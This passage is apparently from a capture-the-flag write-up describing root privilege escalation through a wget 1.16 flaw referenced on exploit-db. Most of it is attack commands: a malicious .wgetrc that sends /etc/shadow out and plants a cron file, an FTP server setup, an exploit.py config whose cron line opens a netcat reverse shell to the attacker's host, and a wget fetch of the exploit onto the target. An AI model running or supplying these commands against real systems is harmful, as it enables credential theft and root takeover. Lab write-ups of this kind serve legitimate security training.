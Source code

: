 In the app.log, we see wget version 1.16 is used. Searching this up on Google revealed this exploit:

https://www.exploit-db.com/exploits/40064

As wget are commonly used in cronjobs by root, the exploit exploits this and will execute commands as root user. 

```bash
In order to exploit this setup, attacker first prepares a malicious .wgetrc 
and starts an FTP server:

attackers-server# mkdir /tmp/ftptest
attackers-server# cd /tmp/ftptest

attackers-server# cat <<_EOF_>.wgetrc
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
_EOF_

attackers-server# sudo pip install pyftpdlib
attackers-server# python -m pyftpdlib -p21 -w

At this point attacker can start an HTTP server which will exploit wget by
sending malicious redirects to the victim wget's requests
```

Let’s do more of the same changing things slightly, on attack host

```bash
mkdir ftptest
cd ftptest
cat <<_EOF_>.wgetrc
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
_EOF_

python3 -m pyftpdlib --port 21
```

Let’s also change the exploit.py, the following lines, and copy it to the target machine:

```bash
HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.16.7'
FTP_PORT = 21

ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.7 9001 >/tmp/f \n"
```

```bash
cd /dev/shm
wget http://10.10.16.7:8001/exploit.py

```
